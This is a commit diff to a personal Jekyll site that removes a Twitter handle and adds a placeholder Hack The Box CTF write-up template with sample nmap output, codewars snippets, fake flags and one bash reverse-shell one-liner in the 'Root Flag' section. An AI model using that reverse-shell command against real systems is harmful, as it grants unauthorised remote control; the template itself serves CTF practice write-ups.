

Before and after one commit to Ily455/Ily455.github.io, a Jekyll site: the page built from _pages/publications.md, in a window 1280 px wide and 1269 px high. Shown: the whole window at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
removed twitter cause hh

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -109,7 +109,7 @@ author:
   stackoverflow    : # http://stackoverflow.com/users/123456/username
   steam            :
   tumblr           :
-  twitter          : "Ily455_E"
+  twitter          :
   vine             :
   weibo            :
   xing             :
--- /dev/null
+++ b/_publications/2023-02-01-HTB-Agile-number-0.md
@@ -0,0 +1,125 @@
+---
+title: "Hack The Box - BOX NAME HERE"
+author: Ryan Kozak
+date: "2021-06-15"
+subject: "CTF Writeup Template"
+keywords: [HTB, CTF, Hack The Box, Security]
+lang: "en"
+titlepage: true
+title-page-color: "141d2b"
+titlepage-rule-color: "11b925"
+titlepage-text-color: "FFFFFF"
+toc: true
+toc-own-page: true
+titlepage-background: "./images/bg.pdf"
+...
+
+
+*Everything below is just random stuff for the sake of example.*
+
+# Information Gathering
+
+## Nmap
+We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.
+
+```console
+x@wartop:~$ nmap -sVC 192.168.100.6
+
+Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
+Nmap scan report for 192.168.100.6 (192.168.100.1)
+Host is up (0.022s latency).
+Not shown: 996 closed ports
+PORT    STATE SERVICE  VERSION
+22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
+53/tcp  open  domain
+81/tcp  open  http     Apache httpd
+|_http-server-header: Apache
+444/tcp open  ssl/http Apache httpd
+|_http-server-header: Apache
+| ssl-cert: Subject: commonName=192.168.100.6
+| Not valid before: 2018-07-06T14:40:08
+|_Not valid after:  4756-06-01T14:40:08
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
+```
+From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.
+
+Look  here's an image of my website, this is how you format an image.
+
+![My Website](./images/ryankozak.com.png)
+\ **Figure 1:** My Website
+
+
+![Github](./images/github.png)
+\ **Figure 2:** Github Profile
+
+Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.
+
+```python
+def make_readable(seconds):
+
+    hours = seconds / 60**2
+    minutes = seconds/60 - hours*60
+    seconds = seconds - hours*(60**2) - minutes*60
+
+    return '%02d:%02d:%02d' % (hours, minutes, seconds)
+```
+
+
+# Exploitation
+
+In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.
+
+```php
+function sqInRect($lng, $wdth) {
+
+    if($lng == $wdth) {
+      return null;
+    }
+
+    $squares = array();
+
+    while($lng*$wdth >= 1) {
+      if($lng>$wdth) {
+        $base = $wdth;
+        $lng = $lng - $base;
+      }
+      else {
+        $base = $lng;
+        $wdth = $wdth - $base;
+      }
+      array_push($squares, $base);
+    }
+    return $squares;
+}
+```
+Above is the php code for the **Rectangle into Squares** kata solution from codewars.
+
+
+## User Flag
+
+In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!
+
+```
+x@wartop:~$ cat user.txt
+6u6baafnd3d54fc3b47squhp4e2bhk67
+```
+
+## Root Flag
+
+The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.
+
+
+![Root](./images/root.png)
+\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka
+
+
+# Conclusion
+In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.
+
+# References
+1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
+2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
+3. [https://hackthebox.eu](https://hackthebox.eu)
+4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
````
